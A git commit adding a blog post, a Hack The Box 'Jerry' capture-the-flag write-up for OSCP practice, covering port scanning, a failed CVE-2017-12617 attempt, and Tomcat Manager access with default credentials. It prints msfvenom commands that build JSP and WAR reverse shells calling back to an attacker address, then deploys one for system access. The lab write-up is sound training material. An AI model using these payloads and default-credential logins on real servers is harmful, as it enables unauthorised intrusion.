

Before and after one commit to Twigonometry/mac-goodwin.com, a Jekyll site: the page built from mac-goodwin/blog/index.html, in a window 1280 px wide and 900 px high, scrolled down 809 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; part of the change alters nothing that is shown.

Commit message:
Jerry writeup

````diff
--- /dev/null
+++ b/mac-goodwin/blog/HTB/_posts/2021-05-4-htb-jerry.md
@@ -0,0 +1,424 @@
+---
+layout: post
+layout: default
+title: "Jerry"
+description: "My writeup for the HacktheBox Jerry Machine, an easy box that involves uploading a malicious WAR file to a badly secured Tomcat server."
+category_string: "Hack the Box (HTB)"
+custom_css: ['blogs']
+date: 2021-05-04 11:00:00
+---
+
+# Contents
+- [Overview](#overview)
+  - [Ratings](#ratings)
+- [Tags](#tags)
+- [Enumeration](#enumeration)
+    - [All Ports Scan](#all-ports-scan)
+    - [Vuln Scan](#vuln-scan)
+  - [Gobuster](#gobuster)
+  - [Enumerating OS](#enumerating-os)
+- [Tomcat](#tomcat)
+  - [Webpage](#webpage)
+    - [Shell Page](#shell-page)
+  - [Tomcat Version](#tomcat-version)
+  - [Trying CVE-2017-12617 Exploit](#trying-cve-2017-12617-exploit)
+    - [Running the Exploit](#running-the-exploit)
+  - [Alternate Exploit](#alternate-exploit)
+  - [Manager Console](#manager-console)
+    - [WAR File Shell](#war-file-shell)
+
+# Overview
+
+This is the fourth box in my OSCP prep series.
+
+**Box Details**
+
+|IP|User-Rated Difficulty|OS|Date Started|Date Completed|
+|---|---|---|---|---|
+|10.10.10.95|2.9|Windows|2021-05-04|2021-05-04|
+
+---
+
+This box was pretty easy. It involved logging into a Tomcat Manager page and uploading a `.WAR` shell, which gave us `system` access.
+
+It took me about two hours, which is pretty slow compared to the six minutes for first blood. However, that was mostly because I spent a fair amount of time down a rabbit hole trying to exploit a CVE. When I found the correct path through the management console, it took me about half an hour; the exploit itself dropped me in directly as `system`.
+
+## Ratings
+
+I rated both user and root a 1 for difficulty. The exploit was arguably even simpler than Blue and Legacy, at least by hand - while it wasn't a case of just firing off a metasploit module, uploading a shell and triggering it by simply visiting the URL is much simpler than manually editing an exploit. There was also no privesc involved.
+
+# Tags
+
+#writeup #oscp-prep #windows #file-upload #tomcat #no-metasploit
+
+# Enumeration
+
+I started out with an `nmap`:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB]
+└─$ mkdir jerry && cd jerry && mkdir nmap
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ nmap -sC -sV -oA nmap/ 10.10.10.95
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 12:35 BST
+Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
+Nmap done: 1 IP address (0 hosts up) scanned in 4.09 seconds
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ nmap -v -sC -sV -Pn -oA nmap/ 10.10.10.95
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 12:35 BST
+NSE: Loaded 153 scripts for scanning.
+NSE: Script Pre-scanning.
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.00s elapsed
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.00s elapsed
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.00s elapsed
+Initiating Parallel DNS resolution of 1 host. at 12:35
+Completed Parallel DNS resolution of 1 host. at 12:35, 0.01s elapsed
+Initiating Connect Scan at 12:35
+Scanning 10.10.10.95 [1000 ports]
+Discovered open port 8080/tcp on 10.10.10.95
+Completed Connect Scan at 12:35, 7.38s elapsed (1000 total ports)
+Initiating Service scan at 12:35
+Scanning 1 service on 10.10.10.95
+Completed Service scan at 12:35, 6.23s elapsed (1 service on 1 host)
+NSE: Script scanning 10.10.10.95.
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.81s elapsed
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.10s elapsed
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.00s elapsed
+Nmap scan report for 10.10.10.95
+Host is up (0.028s latency).
+Not shown: 999 filtered ports
+PORT     STATE SERVICE VERSION
+8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
+|_http-favicon: Apache Tomcat
+| http-methods:
+|_  Supported Methods: GET HEAD POST OPTIONS
+|_http-server-header: Apache-Coyote/1.1
+|_http-title: Apache Tomcat/7.0.88
+
+NSE: Script Post-scanning.
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.00s elapsed
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.00s elapsed
+Initiating NSE at 12:35
+Completed NSE at 12:35, 0.00s elapsed
+Read data files from: /usr/bin/../share/nmap
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 15.41 seconds
+```
+
+This shows just one port open, an Apache Tomcat server on port 8080. It is running version 7.0.88.
+
+### All Ports Scan
+
+This time I checked whether the `-Pn` flag was needed before setting off my all ports scan. It is shown below:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ sleep 300; nmap -Pn -p- -oA nmap/all-ports 10.10.10.95
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 12:41 BST
+Nmap scan report for 10.10.10.95
+Host is up (0.023s latency).
+Not shown: 65534 filtered ports
+PORT     STATE SERVICE
+8080/tcp open  http-proxy
+
+Nmap done: 1 IP address (1 host up) scanned in 109.57 seconds
+```
+
+It found no extra ports.
+
+### Vuln Scan
+
+I ran a vuln scan on the 8080 port:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ nmap --script vuln -Pn -p 8080 -oA nmap/vuln 10.10.10.95
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 12:38 BST
+Nmap scan report for 10.10.10.95
+Host is up (0.021s latency).
+
+PORT     STATE SERVICE
+8080/tcp open  http-proxy
+| http-enum:
+|   /examples/: Sample scripts
+|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
+|   /manager/html: Apache Tomcat (401 Unauthorized)
+|_  /docs/: Potentially interesting folder
+| http-slowloris-check:
+|   VULNERABLE:
+|   Slowloris DOS attack
+|     State: LIKELY VULNERABLE
+|     IDs:  CVE:CVE-2007-6750
+|       Slowloris tries to keep many connections to the target web server open and hold
+|       them open as long as possible.  It accomplishes this by opening connections to
+|       the target web server and sending a partial request. By doing so, it starves
+|       the http server's resources causing Denial Of Service.
+|
+|     Disclosure date: 2009-09-17
+|     References:
+|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
+|_      http://ha.ckers.org/slowloris/
+
+Nmap done: 1 IP address (1 host up) scanned in 97.73 seconds
+```
+
+This shows it is vulnerable to slow loris, but we are not trying to crash the box, so this is unlikely to be useful.
+
+## Gobuster
+
+`nmap`'s vuln scan did find some default files, so I decided to set off a `gobuster` scan while I poked at the Tomcat version.
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
+===============================================================
+Gobuster v3.1.0
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+===============================================================
+[+] Url:                     http://10.10.10.95:8080
+[+] Method:                  GET
+[+] Threads:                 10
+[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
+[+] Negative Status codes:   404
+[+] User Agent:              gobuster/3.1.0
+[+] Timeout:                 10s
+===============================================================
+2021/05/04 12:44:29 Starting gobuster in directory enumeration mode
+===============================================================
+/docs                 (Status: 302) [Size: 0] [--> /docs/]
+/manager              (Status: 302) [Size: 0] [--> /manager/]
+/.                    (Status: 200) [Size: 11398]
+/examples             (Status: 302) [Size: 0] [--> /examples/]
+/shell                (Status: 302) [Size: 0] [--> /shell/]
+/con                  (Status: 200) [Size: 0]
+
+===============================================================
+2021/05/04 12:46:13 Finished
+===============================================================
+```
+
+This came back with a few interesting results, including a `shell` directory.
+
+## Enumerating OS
+
+This came later in the box, when I realised I was unsure about the box's Operating System.
+
+We can look at the OS with a simple `ping`:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ ping 10.10.10.95
+PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
+64 bytes from 10.10.10.95: icmp_seq=1 ttl=127 time=41.0 ms
+64 bytes from 10.10.10.95: icmp_seq=2 ttl=127 time=20.8 ms
+64 bytes from 10.10.10.95: icmp_seq=3 ttl=127 time=21.2 ms
+^C
+--- 10.10.10.95 ping statistics ---
+3 packets transmitted, 3 received, 0% packet loss, time 2002ms
+rtt min/avg/max/mdev = 20.803/27.659/41.006/9.438 ms
+```
+
+Inspecting the TTL tells us a bit about the OS. The default windows TTL is 128, and `ping` decrements by 1, so this is likely a windows box. For Linux, it is usually 64.
+
+We can also run an nmap OS discovery to check this - the scan requires root privileges:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ sudo nmap -O -Pn -oA nmap/os 10.10.10.95
+[sudo] password for mac:
+Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 13:00 BST
+Nmap scan report for 10.10.10.95
+Host is up (0.026s latency).
+Not shown: 999 filtered ports
+PORT     STATE SERVICE
+8080/tcp open  http-proxy
+Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
+Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
+No exact OS matches for host (test conditions non-ideal).
+
+OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
+```
+
+I don't often use the `-O` flag, as when there are more ports than just 8080 open it is often easier to tell what the OS is.
+
+# Tomcat
+
+## Webpage
+
+The website, on `http://10.10.10.95:8080`, is just the default page for Apache Tomcat:
+
+![](/assets/images/blogs/Pasted image 20210504124212.png)
+
+### Shell Page
+
+Navigating to `http://10.10.10.95/shell/` returns a blank white page:
+
+![](/assets/images/blogs/Pasted image 20210504131221.png)
+
+There is nothing in the source:
+
+![](/assets/images/blogs/Pasted image 20210504131242.png)
+
+## Tomcat Version
+
+The version number is exposed both in the `nmap` scan and on the page itself. Let's search Exploit DB:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ searchsploit tomcat 7.0
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
+ Exploit Title                                                                                                                                                         |  Path
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
+Apache Tomcat 7.0.4 - 'sort' / 'orderBy' Cross-Site Scripting                                                                                                          | linux/remote/35011.txt
+Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                                           | windows/webapps/42953.txt
+Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                           | jsp/webapps/42966.py
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
+Shellcodes: No Results
+```
+
+We might be able to upload a JSP shell.
+
+## Trying CVE-2017-12617 Exploit
+
+Looking at the exploit with `searchsploit -x jsp/webapps/42966.py`, it seems to reference CVE-2017-12617, which it uses to upload a webshell:
+
+![](/assets/images/blogs/Pasted image 20210504124851.png)
+
+The code seems to generate a JSP payload and upload it directly to the box, using the following two methods:
+
+![](/assets/images/blogs/Pasted image 20210504124931.png)
+
+### Running the Exploit
+
+I initially thought that we had to generate our own shellcode in JSP to point back to our box, and that the exploit just uploads the file. However, it turns out the program actually generates a shell. The `pwn` parameter seems to be just a filename.
+
+Nevertheless, I will quickly go over what I did to generate a `.jsp` shell payload:
+- I ran some quick [OS Enumeration](#enumerating-os) to check the operating system, as i wasn't sure at this point (we can cheat and look at the box info on htb, but that's no fun)
+- Created a payload with `msfvenom --f jsp -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -o shell.jsp`
+- Started a [netcat](#netcat) listener and tried running the exploit with `python2 42966.py -u http://10.10.10.95:8080 -p shell.jsp`
+
+Now I knew this wasn't necessary, I changed my syntax, just providing the name `shell`. However, running it again with these options just gave me a 404 `resource is not available` error:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ python2 42966.py -u http://10.10.10.95:8080 -p shell
+
+
+
+   _______      ________    ___   ___  __ ______     __ ___   __ __ ______
+  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
+ | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / /
+ | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /
+ | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /
+  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/
+
+
+
+[@intx0x80]
+
+
+Uploading Webshell .....
+$ id
+
+Apache Tomcat/7.0.88 - Error report
+
+
+HTTP Status 404 - /shell.jsp
+
+type
+ Status report
+message
+
+/shell.jsp
+
+description
+
+The requested resource is not available.
+
+Apache Tomcat/7.0.88
+```
+
+I also tried navigating to it in browser at `http://10.10.10.95/shell.jsp`, and even tried `http://10.10.10.95/shell/shell.jsp` in case it went to that directory - but both of these also gave me a 404.
+
+Looking at the [CVE details](https://access.redhat.com/security/cve/cve-2017-12617), the resource needs to not be in readonly mode, and allow `PUT` requests:
+
+![](/assets/images/blogs/Pasted image 20210504132129.png)
+
+This also states that it only affects Linux machines. So we may be barking up the wrong tree.
+
+## Alternate Exploit
+
+The other option, `windows/webapps/42953.txt`, seems to be tailored to windows. Running `searchsploit -x windows/webapps/42953.txt` gives an overview of the request structure needed.
+
+![](/assets/images/blogs/Pasted image 20210504132312.png)
+
+I pasted this directly into Burp Repeater, and just had to configure the host:
+
+![](/assets/images/blogs/Pasted image 20210504133101.png)
+
+My first attempt gave me a blank response, so I made sure to change the referer header to match the current IP just in case, and sent again:
+
+![](/assets/images/blogs/Pasted image 20210504133324.png)
+
+The response was also blank, so I just went and checked if the shell had been uploaded. However, `http://10.10.10.95/1.jsp` also gave me a 404.
+
+## Manager Console
+
+I decided to change my strategy and look at something else. I went back to the main site, and navigated to the manager app.
+
+Here I was prompted for some credentials. I tried the default login for Tomcat, `tomcat`:`s3cret`:
+
+![](/assets/images/blogs/Pasted image 20210504133752.png)
+
+I was in!
+
+### WAR File Shell
+
+Now the next step was to use this to upload a shell. Scrolling down there was an option to deploy a WAR file:
+
+![](/assets/images/blogs/Pasted image 20210504133840.png)
+
+I did a quick check in `/usr/share/webshells` to see if there was a folder for `WAR` files, but there wasn't - so I went to `msfvenom` instead:
+
+```bash
+┌──(mac㉿kali)-[~/Documents/HTB/jerry]
+└─$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f war -o warshell.war
+Payload size: 13400 bytes
+Final size of war file: 13400 bytes
+Saved as: warshell.war
+```
+
+I found a good guide when searching "kali war shell" that took me through this process: [https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/](https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/)
+
+I then selected the file on my box and clicked deploy:
+
+![](/assets/images/blogs/Pasted image 20210504135209.png)
+
+We can then visit `http://10.10.10.95/warshell`:
+
+![](/assets/images/blogs/Pasted image 20210504135400.png)
+
+Which spawns a shell:
+
+![](/assets/images/blogs/Pasted image 20210504142751.png)
+
+And we can grab both flags:
+
+![](/assets/images/blogs/Pasted image 20210504143146.png)
+
+That's the box!
+
+![](/assets/images/blogs/Pasted image 20210504145745.png)
--- a/mac-goodwin/blog/HTB/_posts/2021-05-4-htb-lame.md
+++ b/mac-goodwin/blog/HTB/_posts/2021-05-4-htb-lame.md
@@ -5,6 +5,7 @@ title: "Lame"
 description: "My writeup for the HacktheBox Lame Machine, an easy box that involves exploiting a command injection in SMB login."
 category_string: "Hack the Box (HTB)"
 custom_css: ['blogs']
+date: 2021-05-04 10:00:00
 ---
 
 # Contents
````
Also changed, not shown: mac-goodwin/assets/images/blogs/Pasted image 20210504124212.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504124851.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504124931.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504131221.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504131242.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504132129.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504132312.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504133101.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504133324.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504133752.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504133840.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504135209.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504135400.png (added), mac-goodwin/assets/images/blogs/Pasted image 20210504142751.png (added), 2 more files.
